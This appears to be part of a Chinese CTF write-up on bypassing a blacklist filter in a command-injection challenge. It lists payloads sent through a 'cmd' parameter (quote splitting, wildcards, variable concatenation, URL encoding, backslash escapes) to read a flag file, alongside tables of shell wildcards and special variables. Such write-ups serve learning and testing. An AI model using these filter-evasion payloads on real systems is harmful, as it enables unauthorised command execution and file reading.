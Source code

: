 #### level 5 - 黑名单式过滤

通过黑名单匹配的方式过滤了flag。

**空字符：**

在Shell中，单/双引号 "/' 可以用来定义一个空字符串或保护包含空格或特殊字符的字符串。
例如：`echo "$"a` 会输出 `$a`，而 `echo $a` 会输出变量 `a` 的值，当只有 `""` 则表示空字符串，Shell会忽略它。

```
?cmd=cat /f''lag
?cmd=cat /f'l'ag
```

**通配符：**

| 通配符 | 功能说明                                                 | 示例              | 用途                                             |
| ------ | -------------------------------------------------------- | ----------------- | ------------------------------------------------ |
| `*`    | 匹配**零个或多个**字符                                   | `*.txt`           | 匹配所有以 `.txt` 结尾的文件                     |
| `?`    | 匹配**单个字符**                                         | `file?.txt`       | 匹配 `file1.txt`, `file2.txt` 等单个字符的文件名 |
| `[]`   | 匹配方括号内的**任意一个字符**                           | `file[1-3].txt`   | 匹配 `file1.txt`, `file2.txt`, `file3.txt`       |
| `[^]`  | 匹配**不在方括号内**的字符                               | `file[^a-c].txt`  | 匹配不包含 `a` 到 `c` 之间字符的文件             |
| `{}`   | 匹配大括号内的**任意一个字符串**，使用逗号分隔           | `file{1,2,3}.txt` | 匹配 `file1.txt`, `file2.txt`, `file3.txt`       |
| `~`    | 表示当前用户的**主目录**                                 | `~/Documents`     | 访问主目录下的 `Documents` 文件夹                |
| `!`    | 表示**取反**，在一些条件测试或模式匹配中使用             | `ls !(*.txt)`     | 列出所有不是 `.txt` 结尾的文件                   |
| `\`    | **转义字符**，取消通配符的特殊意义，使其作为普通字符处理 | `file\*.txt`      | 匹配文件名为 `file*.txt` 的文件                  |

```
?cmd=cat /f*
```

**赋值与拼接：**

```
<@URLe>a=c;b=at;c=fla;d=g;$a$b /$c$d<@URLe>
?cmd=a%3Dc%3Bb%3Dat%3Bc%3Dfla%3Bd%3Dg%3B%24a%24b%20%2F%24c%24d
```

**反斜杠：**

```
?cmd=ca\t /fla\g
```

**特殊变量：**

| 变量           | 含义                                       | 示例输出                          |
| -------------- | ------------------------------------------ | --------------------------------- |
| `${#}`         | 传递给脚本或函数的参数个数                 | `0`（参数为空时）                 |
| `${?}`         | 上一个命令的退出状态                       | `0`（正常退出）或 `1`（异常退出） |
| `${_}`         | 上一个命令的最后一个参数                   | 上一个命令的最后一个参数值        |
| `${0}`         | 当前脚本或 shell 的名字                    | `bash` 或脚本名                   |
| `${1} 到 ${9}` | 传递给脚本或函数的第 1 到第 9 个参数       | 第 1 到第 9 个参数值              |
| `${@}`         | 传递给脚本或函数的所有参数（以列表形式）   | 所有参数值                        |
| `${*}`         | 传递给脚本或函数的所有参数（以字符串形式） | 所有参数作为单个字符串            |
| `${$}`         | 当前 shell 的进程 ID (PID)                 | 进程 ID 值                        |
| `${!}`         | 上一个后台运行的进程的进程 ID (PID)        | 后台进程的 PID                    |
| `${-}`         | 当前 shell 的选项标志                      | `hB`（表示 shell 选项标志）       |
